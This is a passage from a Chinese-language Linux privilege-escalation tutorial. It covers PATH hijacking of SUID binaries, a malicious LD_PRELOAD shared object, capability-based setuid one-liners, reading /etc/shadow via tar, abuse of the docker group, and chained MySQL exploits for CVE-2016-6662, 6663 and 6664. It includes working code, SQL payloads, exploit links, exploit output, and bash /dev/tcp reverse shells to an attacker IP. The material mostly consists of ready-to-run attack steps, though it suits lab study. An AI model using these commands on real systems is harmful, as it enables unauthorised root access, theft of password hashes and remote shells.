export PATH=/tmp:$PATH
cd /home/yokan/script
./shell
whoami
```


**copy命令**

```bash
cd /home/raj/script/
cp /bin/sh /tmp/ps
echo $PATH
export PATH=/tmp:$PATH
./shell
whoami
```


symlink命令

```bash
ln -s /bin/sh ps
export PATH=.:$PATH
./shell
id
whoami
```

注意：symlink也就是符号链接，如果目录拥有所有权限的话，也是能够成功运行的。在Ubuntu中，在符号链接情况下，我们已经赋予了/script目录777权限。
 因此，我们看到攻击者可以控制环境变量PATH来提权并获取root权限，如图：


## 9.2 一般题目攻击姿势

一般题目会给一个很突兀的文件（具有suid或者sudo执行权限），这个文件往往执行了一些系统的命令（比如：ps、ping之类的）

我们的思路就是：**看看它内部执行的到底是什么命令，然后，我们去其他目录（比如/tmp）下生成一个与它内部命令名字相同的文件，但是内容是我们的恶意内容（linux一切皆文件，命令就是文件），**之后将我们的/tmp下面的恶意文件路径导入到环境变量$PATH中去，这样，再去执行他的原突兀文件，他就会首先从环境变量里发现我们的恶意问文件路径，进而以它带有的suid权限执行，达成提权的目的。

演示：

比如桌面上有一运维文件，属主root，有suid权限

运行后可以看出是执行了ps命令：


此时在/tmp目录下创建ps文件，并且将 /bin/bash 写入

```php
echo "/bin/bash" > ps
chmod 777 ps
```

在环境变量中导入/tmp这个路径，这样系统在寻找ps命令的时候就会优先在/tmp目录下寻找

```bash
export PATH=路径:$PATH  ##从头添加
export PATH=$PATH:路径  ##从尾添加

选择从头添加，将我们的路径添加到第一位
export PATH=/tmp:$PATH
```

```php
echo $PATH
```


执行，发现提权成功了

这时echo方法

还可以采用：

符号链接：

```
ln -s /bin/bash ps
```

 或者直接cp

```bash
cp /bin/bash ps
```

总的来说这种情况适用于，给普通用户分配了个可执行程序，且该程序有suid权限，我们又知道该程序会调用哪些命令，那么就可以结合PATH来进行提权

当然拉~这个提权有点鸡肋就是本地用户才可以，如果是web权限用户基本上是不能执行的。

# 0x0A **利用LD_PRELOAD环境变量进行提权**

LD_PRELOAD是Linux下的一个环境变量，程序运行时都会加载一些so文件，类似于windows下程序加载dll，而LD_PRELOAD可以指定程序运行前加载的动态连接库。
如果sudo -l发现可用的命令不好直接进行提权，可尝试此方法

下面以find为例（find 可以直接提权）

test.c代码如下：

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
 
void _init(){
        unsetenv("LD_PRELOAD");
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```


编译

```
gcc test.c -fPIC -shared -o test.so -nostartfiles
```

wget下载到目录并执行

```cobol
sudo LD_PRELOAD=./test.so find
```


方法的好处是自建的so文件无需root属主或者是suid权限，只需要一个可以sudo执行的命令

苛刻的地方是sudoers之前有特殊配置,比如需要env_keep


否则就会出现报错


# 0x0B **利用capability机制进行提权**

capability翻译为能力的意思，linux中能力的概念和suid类似，是用来让普通用户也可以做超级用户的工作，从而设置的一个机制，原来linux分的是普通用户和超级用户，后来加了能力，即赋予某某账号能力，这个账号有能力了，就可以去做事了。
     capability可分割root权限，把root特权分割成不同的能力，然后给与普通用户不同的能力，每一种能力都代表着一种特权。可以用 man capabilities 查看能力

```bash
CAP_AUDIT_CONTROL    启用和禁用内核审计；改变审计过滤规则；检索审计状态和过滤规则
CAP_AUDIT_READ    允许通过 multicast netlink 套接字读取审计日志
CAP_AUDIT_WRITE    将记录写入内核审计日志
CAP_BLOCK_SUSPEND    使用可以阻止系统挂起的特性
CAP_CHOWN    修改文件所有者的权限
CAP_DAC_OVERRIDE    忽略文件的 DAC 访问限制
CAP_DAC_READ_SEARCH    忽略文件读及目录搜索的 DAC 访问限制
CAP_FOWNER    忽略文件属主 ID 必须和进程用户 ID 相匹配的限制
CAP_FSETID    允许设置文件的 setuid 位
CAP_IPC_LOCK    允许锁定共享内存片段
CAP_IPC_OWNER    忽略 IPC 所有权检查
CAP_KILL    允许对不属于自己的进程发送信号
CAP_LEASE    允许修改文件锁的 FL_LEASE 标志
CAP_LINUX_IMMUTABLE    允许修改文件的 IMMUTABLE 和 APPEND 属性标志
CAP_MAC_ADMIN    允许 MAC 配置或状态更改
CAP_MAC_OVERRIDE    覆盖 MAC(Mandatory Access Control)
CAP_MKNOD    允许使用 mknod() 系统调用
CAP_NET_ADMIN    允许执行网络管理任务
CAP_NET_BIND_SERVICE    允许绑定到小于 1024 的端口
CAP_NET_BROADCAST    允许网络广播和多播访问
CAP_NET_RAW    允许使用原始套接字
CAP_SETGID    允许改变进程的 GID
CAP_SETFCAP    允许为文件设置任意的 capabilities
CAP_SETPCAP    参考 capabilities man page
CAP_SETUID    允许改变进程的 UID
CAP_SYS_ADMIN    允许执行系统管理任务，如加载或卸载文件系统、设置磁盘配额等
CAP_SYS_BOOT    允许重新启动系统
CAP_SYS_CHROOT    允许使用 chroot() 系统调用
CAP_SYS_MODULE    允许插入和删除内核模块
CAP_SYS_NICE    允许提升优先级及设置其他进程的优先级
CAP_SYS_PACCT    允许执行进程的 BSD 式审计
CAP_SYS_PTRACE    允许跟踪任何进程
CAP_SYS_RAWIO    允许直接访问 /devport、/dev/mem、/dev/kmem 及原始块设备
CAP_SYS_RESOURCE    忽略资源限制
CAP_SYS_TIME    允许改变系统时钟
CAP_SYS_TTY_CONFIG    允许配置 TTY 设备
CAP_SYSLOG    允许使用 syslog() 系统调用
CAP_WAKE_ALARM    允许触发一些能唤醒系统的东西(比如 CLOCK_BOOTTIME_ALARM 计时器)
```

设置程序能力的时，有三个选项：

```
inheritable，简称i，表示是否可继承。
permitted，简称p，表示是否允许使用。
effective，简称e，表示特权是否有效。
```

我们可以通过以下指令搜索设置了capabilities的可执行文件

```
getcap -r / 2>/dev/null
```

### B.1 通过cap_setuid

cap_setuid 可以设置当前用户的euid，我们可以通过此选项来进行一些提权。

以python为例


我们发现python3.8 有cap_setuid权限，那么我们可以用以下指令进行提权

```
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```


```shell
类似的有很多。
perl
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

gdb
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit

php
php -r "posix_setuid(0); system('/bin/sh');"

python
python -c 'import os; os.setuid(0); os.system("/bin/sh")'

rvim

需要支持python3模块。
rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

vim

需要支持python3模块。vim --version查询，是否支持py3
vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

### B.2 通过CAP_DAC_READ_SEARCH

cap_dac_read_search可以绕过文件的读权限检查以及目录的读/执行权限的检查。

利用此特性我们可以读取系统中的敏感信息。

如果tar有此权限，我们可以通过此来查看敏感文件内容。

tar cvf shadow.tar /etc/shadow  //创建压缩文件 tar -xvf shadow.tar  //解压缩 cd etc  //进入解压缩的目录 chmod +r shadow  //赋予读权限 cat shadow | grep root  //查看shadow文件的内容

# 0x0c 利用docker进行提权

 区别于docker逃逸，相当于是利用docker进行提权

在docker中，是允许访问root用户和docker组中的其它用户的

 查看是否在docker组下

```
cat /etc/group | grep olw
```

 

登入docker组

```
newgrp docker
```

挂载/root目录到docker,或者/etc等

```
docker run -v /etc:/mnt -it alpine
```

之后就为所欲为了


# 0x0D mysql数据库提权

使用MDUT工具一键梭哈。

### D.1 CVE-2016-6662（可将mysql权限提升为系统root权限）

2016年，一个独立的研究组织发现多处严重的Mysql漏洞，此次通报的是其中比较严重的一个漏洞CVE-2016-6662，它允许攻击者远程注入恶意配置到被攻击服务器的Mysql配置文件my.cnf中，导致可加载任意扩展库。当扩展库中存在恶意指令时就可以Getshell。

**该漏洞影响的版本如下：**

- mysql <= 5.7.15
- mysql <= 5.6.33
- mysql <= 5.5.52

**漏洞原理：**

在Linux系统中，一些默认的Mysql安装包自带mysql_safe脚本作为包装器，当我们使用`service mysql start`、`/etc/init.d/mysql start`等命令启动MySQL时，mysqld_safe封装脚本是以root权限启动的，而主要的mysqld进程却是用权限较低的mysql用户启动的。并且mysql_safe脚本将在mysql服务启动前预加载一个扩展库，这个扩展库可以在MySQL的配置文件my.cnf中通过名为malloc_lib的配置项进行设置，该配置项写在[mysqld]下。

如果我们在my.cnf中通过malloc_lib配置项指定一个存在恶意代码的扩展库路径，那么在mysql重启的时候，这些代码将被以root权限执行，实现权限提升。

**漏洞利用条件：**

- 攻击者已经获得了目标主机MySQL的权限
- 目标主机的MySQL版本在漏洞影响范围内
- 攻击者当前获得权限的MySQL用户为root权限（否则无法修改general_log_file全局变量）

下面，我们来复现该漏洞。

**实验环境：**

- 目标机IP：192.168.1.10
- 攻击机IP：192.168.1.7

首先，我们下载一个C脚本，用来编译成我们恶意的扩展库，可获得目标机的shell：

- http://legalhackers.com/exploits/mysql_hookandroot_lib.c

如下修改该攻击脚本：


执行如下命令编译生成恶意的扩展库文件mysql_hookandroot_lib.so：

```
gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.so mysql_hookandroot_lib.c -ldl
```


然后通过上文所讲的各种方式将生成的mysql_hookandroot_lib.so上传到目标机的/tmp目录下即可。

接下来，我们要确定要修改的MySQL配置文件为哪个。MySQL的配置文件除了默认的 /etc/my.cnf，还有别的配置文件路径，并且是顺序读取的：

| File Name              | Purpose                                                |
| ---------------------- | ------------------------------------------------------ |
| **/etc/my.cnf**        | **Global options**                                     |
| **/etc/mysql/my.cnf**  | **Global options**                                     |
| SYSCONFDIR/my.cnf      | Global options                                         |
| **$MYSQL_HOME/my.cnf** | **Server-specific options (server only)**              |
| defaults-extra-file    | The file specified with`--defaults-extra-file`, if any |
| ~/.my.cnf              | User-specific options                                  |
| ~/.mylogin.cnf         | User-specific login path options (clients only)        |

可见MySQL不仅会读取/etc/my.cnf，还会读取$MYSQL_HOME/my.cnf即msyql自身目录下的mf.cnf。那我们到底修改哪一个my.cnf呢？答案是都可以，但最好是mysql目录下的，因为msyql目录毕竟是人家mysql自己的目录，以mysql用户运行的mysql当然是有权限写的，而别的文件可就不好说了。但也无法避免管理员的错误配置情况，所以，只要mysql用户有mysql配置文件的所属权限，攻击便可以追加恶意的配置项到该文件。

其次，我们还要确定用什么方法写my.cnf文件。一说到写文件，我们便可以想到into outfile和into  dumpfile。但是在这里，我们不能用这种方式，因为outfile和dumpfile写出来的文件的权限为-rw-rw-rw，而MySQL有一个安全规则，即如果配置文件的权限可被其他用户写，则将会忽略这个配置文件。所以outfile和dumpfile写出来的配置文件不符合该安全规则。

我们可以用上文中讲的log写文件的方法。并且log写文件对于已存在的文件将会自动追加，正好可以避免写入的以下banner内容对MySQL配置文件的影响，也就是说，如果要用log写配置文件的话，该配置文件必须是mysql已经创建好的。

攻击者在目标主机的MySQL里执行以下操作即可写入MySQL配置文件：

```
mysql> set global general_log = on;    # 开启日志功能

mysql> set global general_log_file = '/etc/my.cnf';    # 设置日志存放路径为mf.cnf

mysql> select "    # 执行后，将在日志中(my.cnf)中写入恶意配置
	"> [mysqld]
	"> malloc_lib=/tmp/mysql_hookandroot_lib.so
	">
	"> #";
	
mysql> set global general_log = off;    # 关闭日志功能
```


查看目标机MySQL配置文件，发现已经成功写入了恶意的配置项：


然后等待目标mysql，攻击者机器上边获得了目标主机的shell：


上述的操作要修改general_log全局变量，也就是说攻击者当前获得权限的MySQL用户必须是root权限。如果攻击者当前获得权限的MySQL用户不是root权限，则我们无法修改general_log全局变量，那么此时我们还可以利用此漏洞吗？当然可以，只需要一个具有 select、insert、create、file 权限的用户即可。

我们可以利用MySQL触发器的方法来成功写入修改配置文件：

```
CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf
AFTER INSERT
   ON `active_table` FOR EACH ROW
BEGIN
   DECLARE void varchar(550);
   set global general_log_file='/var/lib/mysql/my.cnf';
   set global general_log = on;
   select "
[mysqld]
malloc_lib='/var/lib/mysql/mysql_hookandroot_lib.so'
" INTO void;
   set global general_log = off;
END;
```

当表刷新的时候就会执行触发器，比如通过insert来让表刷新：

```
INSERT INTO `active_table` VALUES('xyz');
```

触发器的代码会以mysql root权限执行，从而让攻击者修改general_log设置，即使此时攻击者没有数据库的管理员权限。

给出一个利用脚本：http://legalhackers.com/exploits/0ldSQL_MySQL_RCE_exploit.py

### D.2 CVE-2016-6663（可将www-data权限提升为mysql权限）

2016年11月01日，国外安全研究员Dawid Golunski在 MySQl、MariaDB 和 PerconaDB  数据库中发现条件竞争漏洞。该漏洞允许本地用户使用低权限（CREATE/INSERT/SELECT权限）的账号提升权限到数据库系统用户权限（通常是mysql用户权限）来执行任意代码，黑客成功利用此漏洞后，可以完全访问数据库。

**该漏洞影响的版本如下：**

MySQL：

- <= 5.5.51
- <= 5.6.32
- <= 5.7.14

**漏洞利用条件：**

- 攻击者已经获取到目标服务器的webshell权限
- 可以通过反弹shell的方法获得目标主机的交互环境
- 已经拿到了一个低权限（CREATE/INSERT/SELECT权限）的 MySQL 账户的用户名和密码
- 目标主机的MySQL版本在漏洞影响范围内

下面我们来复现该漏洞。

**实验环境：**

- 目标机IP：192.168.1.10
- 攻击机IP：192.168.1.7

假设我们已经通过蚁剑获得了目标主机的webshell权限。

首先，我们先下载一个C脚本 [mysql-privesc-race.c](https://legalhackers.com/advisories/MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663-5616-Exploit.html)，通过蚁剑将编译将其上传到目标主机。然后执行如下命令反弹个shell获取目标主机的交互环境：

```
bash -c "bash -i >& /dev/tcp/192.168.1.7/2333 0>&1"
```


然后执行如下命令将上传的攻击脚本编译生成我们的exp程序：

```
gcc mysql-privesc-race.c -o mysql-privesc-race -I/usr/include/mysql -lmysqlclient
```


最后，在shell环境中执行的exp程序：

```
./mysql-privesc-race whoami 123456 localhost whoami_db
```

- whoami：已经拿到了一个低权限（CREATE/INSERT/SELECT权限）的 MySQL 用户名
- 123456：低权限 MySQL 用户的密码
- localhost：数据库地址
- whoami_db：属于whoami用户的数据库

执行成功后会获得一个mysql权限，要想提升到系统root权限还需要配合CVE-2016-6664漏洞，大概如下：

```
www-data@xenial:~/mysql-exploit$ time ./mysql-privesc-race www-data pocsql localhost pocdb

MySQL/PerconaDB/MariaDB - Privilege Escalation / Race Condition PoC Exploit
mysql-privesc-race.c (ver. 1.0)

CVE-2016-6663 / OCVE-2016-5616

For testing purposes only. Do no harm.

Discovered/Coded by:

Dawid Golunski 
http://legalhackers.com


[+] Starting the exploit as: 
uid=33(www-data) gid=33(www-data) groups=33(www-data)

[+] Connecting to the database `pocdb` as www-data@localhost
[+] Creating exploit temp directory /tmp/mysql_privesc_exploit
[+] Creating mysql tables 

DROP TABLE IF EXISTS exploit_table 
DROP TABLE IF EXISTS mysql_suid_shell 
CREATE TABLE exploit_table (txt varchar(50)) engine = 'MyISAM' data directory '/tmp/mysql_privesc_exploit' 
CREATE TABLE mysql_suid_shell (txt varchar(50)) engine = 'MyISAM' data directory '/tmp/mysql_privesc_exploit' 

[+] Copying bash into the mysql_suid_shell table. After the exploitation the following file/table will be assigned SUID and executable bits : 
-rw-rw---- 1 mysql www-data 1037528 Nov  1 02:33 /tmp/mysql_privesc_exploit/mysql_suid_shell.MYD

[+] Entering the race loop... Hang in there...
[+] Bingo! Race won (took 5 tries) ! Check out the mysql SUID shell: 
-rwsrwxrwx 1 mysql www-data 1037528 Nov  1 02:33 /tmp/mysql_privesc_exploit/mysql_suid_shell.MYD

[+] Spawning the mysql SUID shell now... 
    Remember that from there you can gain root with vuln CVE-2016-6662 or CVE-2016-6664 :)

mysql_suid_shell.MYD-4.3$ whoami
mysql
mysql_suid_shell.MYD-4.3$ id
uid=33(www-data) gid=33(www-data) euid=102(mysql) groups=33(www-data)
```

但我在本地测试失败了，总是报错说“cp: cannot create regular file  '/tmp/mysql_privesc_exploit/mysql_suid_shell.MYD': Permission  denied”，有知道原因的大佬还请写在评论里告诉我。

### D.3 CVE-2016-6664（可将mysql权限提升为root权限）

该漏洞可以使mysql用户权限提升为系统root权限。

**该漏洞影响的版本如下：**

MySQL ：

- <= 5.5.51
- <= 5.6.32
- <= 5.7.14

**漏洞利用条件：**

- 攻击者已经获取到目标服务器的webshell权限。
- 可以通过反弹shell的方法获得目标主机的交互环境。
- 已经通过CVE-2016-6663等方式获取到系统mysql用户权限。
- 目标主机的MySQL版本在漏洞影响范围内。
- 目标主机配置必须是是基于文件的日志(默认配置)，也就是不能是syslog方式。执行`grep -r syslog /etc/mysql`没有任何结果既满足“基于文件的日志”要求。

该漏洞利用很简单，首先下载漏洞利用脚本 [mysql-chowned.sh](https://legalhackers.com/advisories/MySQL-Maria-Percona-RootPrivEsc-CVE-2016-6664-5617-Exploit.html)，将该脚本上传到目标主机并以系统mysql用户权限运行即可获取系统root权限：

```
./mysql-chowned.sh /var/log/mysql/error.log
```

**注意：**必须以mysql权限执行mysql-chowned.sh才能成功提为root，所以，该漏洞常常需要配合CVE-2016-6663。可以先利用CVE-2016-6663漏洞获取mysql权限的shell然后再执行mysql-chowned.sh。

> CVE-2016-6662、CVE-2016-6663、CVE-2016-6664这几个漏洞常常是配合起来利用的。

### D.4 udf提权

Linux下udf提权的情况基本没见到过，在windows提权再见吧。

## 0x0E 一些小问题

### E.1 python实现交互式shell终端

有些时候系统的命令终端不允许直接访问，可以使用python虚拟化一个终端来执行

```shell
python -c'import pty;pty.spawn("/bin/bash")'
python3 -c'import pty;pty.spawn("/bin/bash")'
```

### E.2 解决linux反弹shell乱码

**2.1.建立交互shell**

```shell
kali  nc -lvnp 2333
目标 bash -i >& /dev/tcp/192.168.1.128/2333 0>&1
```

**2.2.使用python shell**

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

**2.3.放置后台**

crtl +z 放在后台
**2.4.设置格式**

```shell
stty raw -echo
stty -echo raw//一样的
```

**2.5.fg命令再调用**即可